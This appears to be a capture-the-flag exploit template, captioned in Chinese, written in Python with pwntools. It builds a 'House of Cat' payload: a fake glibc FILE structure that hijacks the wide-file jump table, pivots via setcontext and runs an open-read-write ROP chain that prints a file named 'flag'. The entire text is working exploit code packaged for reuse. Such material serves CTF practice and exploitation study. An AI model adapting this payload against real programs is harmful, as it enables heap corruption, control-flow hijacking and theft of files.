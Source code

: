 **ORW模板**  
ROP链方式

```python
def house_of_cat(fake_IO_file_addr):
    flag_addr = fake_IO_file_addr + 0x200
    data = fake_IO_file_addr + 0x400
    payload = flat(
        {
            0x20: [
                    0, 0, 
                    1, 1,
                    fake_IO_file_addr+0x150,    # rdx
                    setcontext + 61
                ],
            0x58: 0,    # chain
            0x78: _IO_stdfile_2_lock,   # _lock
            0x90: fake_IO_file_addr + 0x30,  # _IO_wide_data
            0xb0: 1,    # _mode
            0xc8: _IO_wfile_jumps + 0x10,   # fake_IO_wide_jumps
            0x100: fake_IO_file_addr + 0x40,
            0x140: {
                0xa0: [fake_IO_file_addr + 0x210, ret]
            },
            0x1f0: 'flag',
            0x200: [
                pop_rax_ret,  # sys_open('flag', 0)
                2,
                pop_rdi_ret,
                flag_addr,
                pop_rsi_ret,
                0,
                syscall_ret,

                pop_rax_ret,  # sys_read(flag_fd, heap, 0x100)
                0,
                pop_rdi_ret,
                3,
                pop_rsi_ret,
                data,
                pop_rdx_rbx_ret,
                0x40, 0,
                syscall_ret,

                pop_rax_ret,  # sys_write(1, heap, 0x100)
                1,
                pop_rdi_ret,
                1,
                pop_rsi_ret,
                data,
                pop_rdx_rbx_ret,
                0x40, 0,
                syscall_ret
            ]
        }, filler='\x00'
    )

    return payload
```

